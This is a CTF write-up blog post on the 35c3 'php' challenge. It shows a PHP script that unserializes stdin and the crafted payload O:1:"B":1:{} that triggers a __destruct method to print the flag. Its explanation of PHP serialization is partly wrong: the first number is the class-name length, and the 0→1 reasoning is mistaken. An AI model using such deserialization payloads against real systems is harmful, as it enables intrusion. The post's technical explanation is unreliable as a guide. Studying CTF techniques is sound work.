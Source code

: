 ```yaml
---
layout: post
title: "35c3c php challenge write up"
categories: writeup web
---
```


# 35c3c CTF: php
I recently participated in the 35c3c ctf. I have enough time to do a quick write up
and this vulnerability class is intriguing to me.
## First impressions
When first downloading the included file there is a tar archive with one file.
The file is a simple php script (the game ran it on a nc server). Opening up the file I can clearly
see the vaulnarability. Its contents are as follows.

{% highlight php %}
<?php
line = trim(fgets(STDIN));

$flag = file_get_contents('/flag');

class B {
  function __destruct() {
    global $flag;
    echo $flag;
  }
}

$a = @unserialize($line);

throw new Exception('Well that was unexpected…');

echo $a;
?>

{% endhighlight %}

The vulnerability is a deserialization bug. That when done right allows us too get the flag.

## Exploitation
This bug is fairly simple to exploit. Since we have source code that we can modify we can echo out to the screen the serialized string of a instance of `class B`.
We do that by modifying the code to this.
{% highlight php %}
<?php

$line = trim(fgets(STDIN));

$flag = file_get_contents('/flag');

class B {
  function __destruct() {
    global $flag;
    echo $flag;
  }
}
$f = new B();
echo serialize($f);
$a = @unserialize($line);

throw new Exception('Well that was unexpected…');

echo $a;
?>

{% endhighlight %}

We then run `php php.php` and get the serialized string. `O:1:"B":0:{}`. To actually get the program to print the flag
we have to change the `0` in the serialized string too a `1`. After that you run the program and paste in `O:1:"B":1:{}` into stdin.
The program responds with the flag text.

## How this works.
### Magic methods and deserilization bugs
This is a deserilization bug. A deserilization bug occurs when serialized objects are managed incorrectly.
So when the code calls `unserialize()` on a line from stdin it is inherently trusting the user to supply a serialized object.
That is part one of the vulnerability, what makes deserilization bugs dangerous is the second part. Look at `class B`, specifically the `__destruct` method.
`__destruct` is a magic method or a method that is run without being called by the programer. In this case it is called when the object is deleted when the runtime determines that the object is nolonger needed.
By having control over the string that gets passed too `unserialize` we can create a new instance of `class B` and control its inputs.

### Php object serialization syntax
This part is something that you need to have a tiny understading of, but not a large one.
Our exploit for the serialized object is `O:1:"B":1:{}` but the program prints out `O:1:"B":0:{}` when echo out the serialized text.
To put this simply the string starts with an `O` for object then is followed by a `:` which acts a seperator. The number after the separator is the number of arguments that `class B` takes. After that we have a `"B"` which means its a `class B` object. Followed by another seperator and then the "magic" part.
This number is the amount values in `class B`. When we call `serialize` on our instance of `class B` it removes the global variable from the serialized text. By manually manipulating that value from a `0` to a `1` we are able to have our object recognized the global variable.
If you want a more indepth explination of php serialization check out [php internals][ref].


[ref]: http://www.phpinternalsbook.com/classes_objects/serialization.html
